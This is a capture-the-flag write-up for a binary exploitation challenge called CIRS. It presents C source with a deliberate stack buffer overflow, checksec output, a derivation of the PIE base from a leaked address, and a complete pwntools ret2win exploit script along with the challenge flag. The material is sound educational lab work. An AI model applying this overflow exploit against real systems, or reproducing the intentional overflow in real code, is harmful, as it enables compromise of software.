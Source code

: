 # CIRS

First, lets start off with the code given to us first

```c
#include <stdio.h>
#include <stdlib.h>

// Compiled using gcc -o cirs -g -fno-stack-protector -Wno-stringop-overflow cirs.c

unsigned long report_number = 0;

void setup() //nothing interesting here
{
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
}

void file_report()
{
    char input[28]; //character array variable of size 28
    printf("Please input your student ID: ");
    fgets(input, 28, stdin); //written to input variable
    printf("Please describe the incident: ");
    fgets(input, 256, stdin); //written to input variable
    printf("The matter has been recorded and will be investigated. Thank you.\n");
}

//in a ret2win scenario, this is your win function
void admin()
{
    // how did you even get here?
    FILE *fptr = fopen("flag.txt", "r");
    if (fptr == NULL)
    {
        printf("Cannot open flag\n");
        exit(0);
    }
    char c;
    while ((c = fgetc(fptr)) != EOF)
    {
        printf("%c", c);
    }
    fclose(fptr);
}

int main()
{
    setup();
    srand(0xa2cdde); // seeds the rand() function with the seed 
    report_number = rand(); //random report number
    printf("Welcome to the Cyber Incident Reporting System (CIRS)\n");
    printf("Case number: #%lu\n", &report_number);
    file_report();
    return 0;
}
```

## Running CheckSec
```
└─# checksec cars
[*] '/mnt/f/blahajCTF/pwn/cars'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

From this, we can see that NX is enabled and PIE is enabled
PIE stands for Position Independent Executable, which means that everytime the binary is ran, it gets loaded into a different memory address.  
In a binary with PIE, things like function addresses are saved as an offset, and when the program is run, a randomnised base address will be generated and the function location during runtime would be equal to `base address + offset`

## Find the Base Address

Since the C file is given, you can recompile it without PIE using `gcc -o cirs_patched -g -no-pie -fno-stack-protector -Wno-stringop-overflow cirs.c`
```
└─$ ./cirs_patched
Welcome to the Cyber Incident Reporting System (CIRS)
Case number: #4210832
Please input your student ID:
```

Thus we have a static value case number, which is `0x404090` in hex
this is where we can set `binary.address = (PIERand - 0x404090)`

If we assume the PIE base to be used in the function like
```py
PIERand = int(reportNumber.strip().decode("utf-8"))
print(hex(PIERand)) 

binary.address = (PIERand - 0x404090)
log.success(f'PIE base: {hex(binary.address)}')
```

Which we will obtain as `PIE base: 0x55d758e4a000`  

By disassembling the admin function  
![image-1.png](image-1.png)  
We can see a whole lot of addresses here, but the important ones are used below  

![image.png](image.png)  
There is a difference of 0x400000 between the actual base address and the calculated one

Thus, when writing our script, our binary address will be
`binary.address = (PIERand + 0x400000 - 0x404090)`

Thus the final script will be
```py
from pwn import *

context.binary = binary = ELF("./cirs")
p = process()
#p = remote("0.0.0.0", 10000)

# Get the report number from the output
p.recvuntil("Case number: #")
reportNumber = p.recvuntil("\n")
PIERand = int(reportNumber.strip().decode("utf-8"))
print(hex(PIERand))

# Update our base address
binary.address = (PIERand + 0x400000 - 0x404090)
log.success(f'PIE base: {hex(binary.address)}')

# Write our payload
hidden_function = p64(binary.symbols.admin)
p.recvuntil(b"student ID:")
p.sendline(b"aaa")
p.recvuntil(b"incident:")
payload = b"A" * (40) + hidden_function

p.sendline(payload)
p.interactive()

```

which should output the flag, `YCEP25{I_L0ve_eat1ng_i_m3an_ropp1ng_PIE}`

Adapted from https://riantheduckquack.gitbook.io/ctf-thingys/challenge-writeups/blahajctf-2023/pwn/cars (Thanks Rian!!)
